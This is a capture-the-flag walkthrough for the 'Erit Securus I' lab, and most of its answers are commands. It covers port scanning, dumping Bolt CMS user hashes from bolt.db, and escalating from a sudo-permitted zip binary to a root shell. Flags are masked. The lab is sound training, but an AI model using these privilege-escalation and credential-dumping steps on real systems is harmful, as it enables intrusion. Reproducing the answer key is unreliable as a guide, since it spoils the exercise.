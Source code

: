 # Erit Securus I

- Deploy box

	  no answer needed

- How many ports are open?

	- `scilla port -target <TARGET_IP>`
	- `2`

- What ports are open? Comma separated, lowest first: `**,**`

	- `**,**`

- What CMS is the website built on?

	- `bolt`

- In the exploit from 2020-04-05, what language is used to write the exploit?

	- `python`

- As the exploit is authenticated, you will also need a username and password. Knowing the URI for the login-portal is also critical for the exploit to work. Find the login-portal and try login in.

	  no answer needed

- What is the username of the user running the web server?

	- `www-data`

- What is the users password?

	- `sqlite3 bolt.db`
	- `.tables`
	- `select * from bolt_users;`
	- `echo '$2y$*****************************************************' > hash`
	- `*********`

- Flag 1

	- `su wileec`
	- `cat flag1.txt`
	- `********************`

- User wileec can sudo! What can he sudo?

	- `(*******) NOPASSWD: /usr/bin/***`

- Flag 2

	- `$ TF=$(mktemp -u)`
	- `sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'`
	- `sudo rm $TF`
	- `SHELL=/bin/bash script -q /dev/null`
	- `ls`
	- `cat flag2.txt`
	- `********************************`

- What sudo rights does jsmith have?

	- `(ALL : ALL) NOPASSWD: ALL`

- Flag 3

	- `sudo -s`
	- `cd /root/`
	- `ls`
	- `cat flag3.txt`
	- `****************************************`
